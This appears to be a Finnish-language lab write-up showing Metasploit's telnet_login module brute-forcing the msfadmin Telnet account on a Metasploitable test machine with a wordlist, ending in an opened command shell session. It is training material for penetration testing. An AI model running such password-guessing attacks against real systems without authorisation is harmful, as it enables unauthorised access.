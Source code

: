 Avataan metasploit ja etsitään "telnet_login" -hakusanalla exploitia.

`````

msf6 > search telnet_login

Matching Modules
================

   #  Name                                                              Disclosure Date  Rank    Check  Description
   -  ----                                                              ---------------  ----    -----  -----------
   0  auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass  2021-09-06       normal  Yes    Netgear PNPX_GetShareFolderList Authentication Bypass
   1  auxiliary/scanner/telnet/telnet_login                                              normal  No     Telnet Login Check Scanner


`````
Haluamme tässä käyttää 1. Seuraavaksi asetetaan tarvittavat tiedot.

``````
msf6 auxiliary(scanner/telnet/telnet_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.12.3
RHOSTS => 192.168.12.3
msf6 auxiliary(scanner/telnet/telnet_login) > set USERNAME msfadmin
USERNAME => msfadmin
msf6 auxiliary(scanner/telnet/telnet_login) > run

``````

Salasanan kräkkääminen alkoi rockyou -listasta. Koska lista on järkyttävän pitkä ,ja jotta minulla ei menisi loppupäivää kräkätessä, tein oman listan, joka on lyhyempi. Tiedän, että tunnukset käyttäjälle on msfadmin:msfadmin, joten tein salasanalistan muutamasta salasanasta ja msfadmin -salasana lisättynä listaan. Ajan hyökkäyksen uudestaan.

``````
cat /usr/share/wordlists/telnet.txt
root
admin
password
123123
msfadmin
``````

Kokeilen uudestaan.

``````
msf6 auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.12.3
RHOSTS => 192.168.12.3
msf6 auxiliary(scanner/telnet/telnet_login) > set PASS_FILE /usr/share/wordlists/telnet.txt
PASS_FILE => /usr/share/wordlists/telnet.txt
msf6 auxiliary(scanner/telnet/telnet_login) > set USERNAME msfadmin
USERNAME => msfadmin
msf6 auxiliary(scanner/telnet/telnet_login) > run

[!] 192.168.12.3:23       - No active DB -- Credential data will not be saved!
[-] 192.168.12.3:23       - 192.168.12.3:23 - LOGIN FAILED: msfadmin:root (Incorrect: )
[-] 192.168.12.3:23       - 192.168.12.3:23 - LOGIN FAILED: msfadmin:admin (Incorrect: )
[-] 192.168.12.3:23       - 192.168.12.3:23 - LOGIN FAILED: msfadmin:password (Incorrect: )
[-] 192.168.12.3:23       - 192.168.12.3:23 - LOGIN FAILED: msfadmin:123123 (Incorrect: )
[+] 192.168.12.3:23       - 192.168.12.3:23 - Login Successful: msfadmin:msfadmin
[*] 192.168.12.3:23       - Attempting to start session 192.168.12.3:23 with msfadmin:msfadmin
[*] Command shell session 1 opened (192.168.12.2:40249 -> 192.168.12.3:23) at 2023-12-03 15:26:51 +0200
[*] 192.168.12.3:23       - Scanned 1 of 1 hosts (100% complete)
``````